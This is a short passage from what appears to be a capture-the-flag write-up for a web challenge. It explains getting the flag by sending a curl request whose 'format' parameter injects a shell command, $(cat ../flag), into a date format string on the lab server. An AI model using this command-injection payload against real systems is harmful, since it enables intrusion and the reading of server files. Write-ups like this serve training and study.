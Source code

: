 so to get the flag we need to curl via url as u can see it's look like we can 
curl 'http://94.237.54.30:47853/?format=%H-%M-%S-%27;$(cat%20../flag)%27' 
we cat flag via ../ as the file path that we got from web_timekorp.zip
